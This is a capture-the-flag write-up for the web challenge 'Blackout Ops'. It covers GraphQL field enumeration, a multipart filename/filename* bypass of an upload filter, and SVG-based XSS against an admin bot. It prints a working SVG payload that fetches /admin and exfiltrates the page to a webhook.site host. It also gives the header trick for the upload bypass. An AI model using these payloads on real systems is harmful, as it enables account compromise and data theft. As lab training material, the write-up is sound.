


<font size="5">Blackout Ops</font>

  5<sup>th</sup> 5 2025

  Prepared By: xclow3n

  Challenge Author: xclow3n

  Difficulty: <font color=green>Easy</font>

  Classification: Official


## Synopsis

*Blackout Ops* is an entry‑level web challenge that demonstrates:

* Discovering undocumented GraphQL fields
* Bypassing multipart form validation via an OpenResty/Busboy parsing quirk
* Exploiting an SVG‑based XSS to lure an admin bot

The ultimate goal is to trick the admin bot into visiting our malicious payload and leak the contents of the `/admin` page.

## Skills Required

* Familiarity with JavaScript and HTTP requests
* Basic understanding of Cross‑Site Scripting (XSS)

## Skills Demonstrated

* Crafting and sending custom GraphQL queries
* Understanding multipart form boundary quirks to bypass file‑type restrictions
* Embedding and triggering XSS via SVG files

---

## Walkthrough

### 1. Register and Log In

Upon first visiting the application, we are presented with a standard user dashboard.
We can register a new account, but the email address must end in `@blackouts.htb`:



After registering and logging in, we see:



All account actions require verification. A code is sent to our email, which we cannot access.

### 2. Enumerate the Verification Code via GraphQL

Inspecting the GraphQL schema in `graphql/schema.js`, we find:

```graphql
  type User {
    id: ID!
    email: String!
    role: String!
    inviteCode: String   # <-- the verification token
    verified: Boolean!
  }
```

The `inviteCode` field holds our verification code. We can craft a simple GraphQL query to fetch it:

```http
POST /graphql HTTP/1.1
Host: blackouts.htb
Content-Type: application/json

{ "query": "{ user(email: \"attacker@blackouts.htb\") { inviteCode } }" }
```

This returns our `inviteCode`, which we then submit to the verification endpoint. Our account becomes verified.

### 3. Analyze the Incident‑Report and Upload Paths

Navigating the source, two relevant routes stand out:

* **Submitting an incident report** (`submitIncidentReport` resolver)

  * Validates `evidenceUrl` starts with `http://` or `https://`
  * Inserts the report and then asynchronously calls a corporate bot to visit our URL using admin credentials.

* **File upload endpoint** (`POST /upload` in `routes/pages.js`)

  * Uses Busboy and OpenResty to parse multipart files.
  * Naïvely trusts the file extension in the `Content-Disposition` header to whitelist only `.jpg`, `.jpeg`, and `.png`.

After uploading, the filename is recorded in the database, but there's no additional server‑side validation of the file contents.

### 4. Bypass Multipart Validation and Upload a Malicious SVG

Researching Busboy and OpenResty multipart parsing, we discover a quirk: by adding both a normal `filename` and an extended `filename*` parameter, the server’s Lua validator can be tricked. For example:

```http
Content-Disposition: form-data; name="file";
  filename="image.png";
  filename*=UTF-8''attack.svg
```

This passes the extension check (seeing `.png`) while the actual file is saved as an SVG.

We craft an SVG payload that executes JavaScript when opened:

```xml
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400">
  <script type="text/javascript">
    // Fetch the admin dashboard and exfiltrate via webhook
    fetch('/admin')
      .then(res => res.text())
      .then(html =>
        fetch('https://webhook.site/your-unique-id', {
          method: 'POST',
          body: btoa(html)
        })
      );
  </script>
</svg>
```

Upload this SVG using the multipart header trick.


Finally, we submit an incident report that points to our uploaded SVG’s URL and get the flag

